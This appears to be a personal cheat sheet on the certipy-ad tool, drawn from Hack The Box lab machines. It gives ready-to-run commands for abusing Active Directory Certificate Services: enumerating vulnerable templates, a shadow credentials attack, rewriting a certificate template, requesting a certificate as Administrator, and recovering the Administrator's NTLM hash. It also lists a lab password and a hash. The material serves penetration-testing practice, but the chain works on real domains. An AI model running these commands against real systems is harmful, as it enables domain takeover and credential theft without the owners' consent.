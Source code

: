 # certipy

## Overview

## Usage

### Auth

Return a hash for the account of the private key

Example: certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.251.172

### Find

The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations. The find operation searches for vulnerabilities such as missing or misconfigured certificates, insecure settings, or issues with Kerberos encryption types.

    -scheme <scheme>: This specifies which scheme should be used to communicate with the target Domain Controller.
    -k: The -k flag indicates that Kerberos authentication should be used for the request. Certipy will attempt to authenticate with the Kerberos tickets that are either provided or found in the Kerberos ticket cache
    -debug: The -debug flag enables debugging output.
    -target <target_name>.<domain_name>: DNS name of the target
    -dc <ip>: Domain Controller ip.
    -vulnerable: This flag tells Certipy to look for vulnerabilities related to Kerberos and Active Directory certificate configurations.
    -stdout: The -stdout flag indicates that Certipy should print its results to standard output, rather than saving them to a file.

```shell
KRB5CCNAME=$PWD/<victim_username_with_TGT>.ccache certipy-ad find -scheme <scheme> -k -debug -target <target_dns_name> -dc-ip <domain_controller_ip> -vulnerable -stdout
```

Example: KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.129.251.172 -vulnerable -stdout

### Req

Example: certipy-ad req -u ca_svc -hashes :{ca_svc_hash} -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns {ip} -dns {ip}

Might need to be run multiple times to work

### Shadow Credentials

```shell
certipy-ad shadow auto -u <username>@<domain_name> -p '<password>' -dc-ip <domain_controller_ip> -ns <dns_server_ip> -target <domain_controller_name>.<domain_name> -account <username_victim>
```

Example : 
```shell 
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```
```shell
faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" certipy shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.129.193.226 -account 'winrm_svc'
```

### Template

This specifies the Kerberos template to use when requesting a Kerberos ticket. This template is used when performing actions like generating tickets or performing Kerberos-based attacks (like Pass-the-Ticket (PTT) or Golden Ticket).

Example: 
```shell 
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
```


## Examples

### Shadow Credentials

Do a shadow crendentials attack to get a TGT for the account ca_svc

```shell
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```

With the TGT of ca_svc specify a template and get a private key for the Administrator account:

```shell
    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
    certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.251.172 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.251.172 -dns 10.129.251.172
```

Finally authenticate with the private key and get the NTLM hash for the Administrator account:

```shell
    certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.129.251.172
```